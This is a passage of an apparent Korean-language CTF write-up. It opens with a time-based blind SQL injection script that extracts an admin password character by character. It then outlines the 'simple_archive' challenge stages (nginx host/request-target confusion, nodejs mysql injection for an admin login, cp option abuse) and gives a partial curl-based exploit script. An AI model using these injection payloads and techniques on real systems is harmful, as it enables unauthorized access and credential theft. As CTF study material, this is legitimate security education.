 ```py
            query += f"' where if(ord(substr((select password from users where username='admin'),{len(FLAG) + 1},1))={i}, sleep({TIMEOUT}), 0)#"

            register(query, password)
            login(query, password)
            try:
                requests.post(HOST, cookies=COOKIE, timeout=TIMEOUT)
            except requests.exceptions.Timeout:
                FLAG += chr(i)
                print(FLAG)

if __name__ == "__main__":
    password = gen_random_str(4)
    exp(password)
    print("FLAG:",FLAG)
```

#### simple_archive
stage 1

nginx에서는 path 부분에 /asdf 대신 http://asdf.com/asdf로 해도 작동합니다. server_name은 첫 번째로 path에서, 두 번째로 host에서 가져오기에 host와 server_name은 달라질 수 있습니다. 이를 이용하여 node에 접근할 수 있습니다.

stage 2

nodejs mysql 라이브러리의 well-known sql injection 취약점을 이용하여 admin으로 로그인할 수 있습니다.

stage3

cp 명령어 option을 통해 권한 없는 곳에 복사하여 error를 낸 후 계정 경로를 알아낸 후 복사하면 플래그를 획득할 수 있습니다.

##### ex.py
```py
import subprocess
import json
import base64
import os

BASE_URL = "http://local.sqli.kr:8000"
def send_request(url, body, cookie=False, file_flag=False):
    command = [
            "curl",
            "-i",
            "-XPOST",
            BASE_URL,
            "--request-target",
            url,
            "-H",
            "Host: wafzz"
    ]
    if cookie != False:
        command.append("-H")
        command.append(f"Cookie: {cookie}")
    if file_flag != False:
        command.append("-F")
        command.append("file=@./asdf.txt")
    else:
        command.append("-H")
        command.append("Content-Type: application/json")
        command.append("-d")
        command.append(json.dumps(body))
    proc = subprocess.run(
        command,
        capture_output=True,
        text=True,
    )
```